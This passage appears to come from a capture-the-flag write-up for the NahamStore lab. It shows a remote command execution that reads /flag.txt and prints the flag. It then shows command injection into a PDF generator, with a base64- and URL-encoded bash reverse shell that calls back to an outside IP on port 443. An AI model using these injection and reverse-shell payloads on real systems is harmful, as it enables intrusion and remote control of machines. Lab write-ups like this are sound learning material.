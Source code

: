 - `view-source:http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c?cmd=cat /flag.txt`
	- Get the flag: `{b42d2f1ff39874d56132537be62cf9e3}`
	![12rce1-3](imgs/12rce1-3.png)


RCE 2: command injection in the hidden POST parameter on the pdf-generator
- Step 1: prepare for the payload
	- `echo "bash -i >& /dev/tcp/10.13.19.112/443 0>&1" | base64`
		```
		YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMy4xOS4xMTIvNDQzIDA+JjEK
		```
	- Go to `https://www.urlencoder.org/`
		- Get the final payload: `%60echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMy4xOS4xMTIvNDQzIDA%2BJjEK%20%7C%20base64%20-d%20%7C%20bash%60`
